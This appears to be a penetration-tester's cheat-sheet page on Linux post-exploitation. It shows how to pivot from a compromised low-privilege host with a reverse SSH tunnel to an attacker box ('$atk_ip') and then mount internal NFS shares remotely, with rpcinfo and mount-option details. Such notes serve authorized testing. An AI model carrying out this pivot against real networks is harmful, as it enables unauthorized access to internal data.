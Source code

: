 # Linux Post Methods

## Misc Tricks

* Mount internal NFS share through pivot:

After compromising a host as a low-priv user, if the system has access to local NFS shares, the shares can be mounted via a proxy. One method is to create a SSH proxy and mount the NFS share on the remote attack box. In the easiest of cases, the below is all that is required.

```
# victim
ssh -R 2049:$target_nfs_ip:2049 proxyusr@$atk_ip
# attacker
mount -t nfs -o port=2049 localhost:/share /mnt
```

As NFS uses multiple ports for protocol communication, and can make use of TCP or UDP, if the mount command fails, it is likely due to the `mountport` being unknown on the attacking system. This can be resolved by feeding the mount command the port manually. Run the following on the victim system to identify the port. 

```
rpcinfo -p $victim_nfs
```

Where the `mountd` port is the `mountport`, it can be fed to the mount command.

```
mount -t nfs -o port=2049,mountport=1234 localhost:/share /mnt
```

One may need to set the `-o proto=tcp` to ensure TCP is used. Or, the  NFS version may need to be set manually, such as `-o vers=3` or `-o vers=4`.